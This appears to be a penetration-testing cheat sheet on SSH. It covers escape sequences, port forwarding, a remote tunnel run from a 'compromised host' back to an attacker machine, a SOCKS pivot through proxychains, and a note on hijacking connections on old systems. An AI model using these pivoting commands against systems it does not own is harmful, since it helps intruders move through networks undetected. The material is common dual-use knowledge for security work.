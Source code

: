 # ssh

## SSH Konami Code

Supported escape sequences: 

```text
~. - terminate connection (and any multiplexed sessions) 
~B - send a BREAK to the remote system 
~C - open a command line 
~R - request rekey 
~V/v - decrease/increase verbosity (LogLevel) 
~^Z - suspend ssh 
~# - list forwarded connections 
~& - background ssh (when waiting for connections to terminate) 
~? - this message ~~ - send the escape character by typing it twice
```

### On a remote box \(ssh connection\) :

**ENTER ~C**

![](../.gitbook/assets/230b189cbed848048744b0fb9a3623c4.png)

### Port forwarding

![](../.gitbook/assets/7d069a1dd1704293b4bcb944064dc6d8.png)

Bind a connection on our remote attacking machine 

![](../.gitbook/assets/5e4a2a62c298413aa94553f21604c744.png)

{% embed url="https://pen-testing.sans.org/blog/2015/11/10/protected-using-the-ssh-konami-code-ssh-control-sequences" %}

## SSH tunneling

### Local Forwarding

Forward Port 22 from 192.168.99.17 to our local machine port 9005  


![](../.gitbook/assets/image%20%2859%29.png)



```csharp
ssh -l user -p port -N(dont execute remote cmd) -L:8000:127.0.0.1:64297 10.4.4.63(remote_ip)
```

### SSH reverse tunnel \(ie for irc\)

```csharp
ssh -L localhost_PORT:irc.freenode.net:6667 user@owned_server
ssh -L 9001:127.0.0.1:8082 polo@server
```

then

```csharp
irssi -c localhost -p localhost_PORT
```

### On compromised host 

```csharp
ssh -f -N -R 2222:127.0.0.1 USER@ATTACKER
```

### Then, on attacker 

```csharp
ssh -f -N -D 127.0.0.1:1028 -p 2222 owned_user@127.0.0.1
```

### Then configure proxychains.conf

```text
root@kali:~/Documents/# proxychains ssh 10.1.1.1
ProxyChains-3.1 (http://proxychains.sf.net)
```

## No Password

```csharp
ssh -o PasswordAuthentication=no -i arti_rsa user@host
```

## Cipher

### Force a specific cipher

```csharp
ssh -c aes128-ctr username@hostname
```

## Connection hijacking \(old system\)

```text
1. password
2. priv/pub key
3. Certificat Authority key
```

```text
1. password
2. priv/pub key
3. Certificat Authority key
```

`ssh-keygen -lf keys` → check sha256 sum and compare keys

`ssh-keygen -Lf keys` → check certificat \(MUST BE a key signed with a CA\)

Hijack connection \(doesn't work on new linux host\)

![](../.gitbook/assets/677737799eb34ad687d6c6c2b76588a1.png)

